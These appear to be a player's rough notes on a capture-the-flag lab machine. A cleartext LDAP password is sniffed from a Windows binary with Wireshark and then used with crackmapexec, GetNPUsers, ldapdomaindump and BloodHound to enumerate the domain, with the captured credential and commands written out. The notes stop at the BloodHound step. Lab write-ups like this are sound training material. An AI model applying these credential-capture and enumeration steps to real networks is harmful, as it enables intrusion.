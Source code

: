 So we know that to run .exe file in linux we have install wine and able to run 
As well as we are able to query the ldap query 

Let's see what we can catch with wireshark and one tip that where most of the guys make mistake is they chose tun0 and get nothing so we have to either select tun0 or any.

We got a ldap bind request and it seems to some kind of password
![[Pasted image 20231121184323.png]]

```
Frame 14: 130 bytes on wire (1040 bits), 130 bytes captured (1040 bits) on interface any, id 0
Linux cooked capture v1
Internet Protocol Version 4, Src: 10.10.16.3, Dst: 10.10.11.174
Transmission Control Protocol, Src Port: 50842, Dst Port: 389, Seq: 1, Ack: 1, Len: 62
Lightweight Directory Access Protocol
    LDAPMessage bindRequest(1) "support\ldap" simple
        messageID: 1
        protocolOp: bindRequest (0)
            bindRequest
                version: 3
                name: support\ldap
                authentication: simple (0)
                    simple: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
        [Response In: 18]
```
![[Pasted image 20231121184451.png]]

We got a new user and passwd
```
ldap
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![[Pasted image 20231121185514.png]]



```
cme smb 10.10.11.174 -d support.local -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
![[Pasted image 20231121185643.png]]

```
cme smb 10.10.11.174 -d support.local -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares
```
![[Pasted image 20231121185743.png]]

Now we have a hunch at this point of time that this is something related to ldaps so let's try running it.

```
 GetNPUsers.py SUPPORT/ -usersfile user.txt -format john -dc-ip 10.10.11.174
```

```
ldapdomaindump ldaps://10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

I think we have to go back and check the smb share netlogon and sysvol to be precise.
![[Pasted image 20231121191116.png]]

Password Policy
![[Pasted image 20231121191410.png]]

Finally i decided to run Bloodhound previously i used support and not support.htb
```
bloodhound-python -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -ns 10.10.11.174 -c all
```

![[Pasted image 20231121192737.png]]
As you can see that we have our testing computer in place.

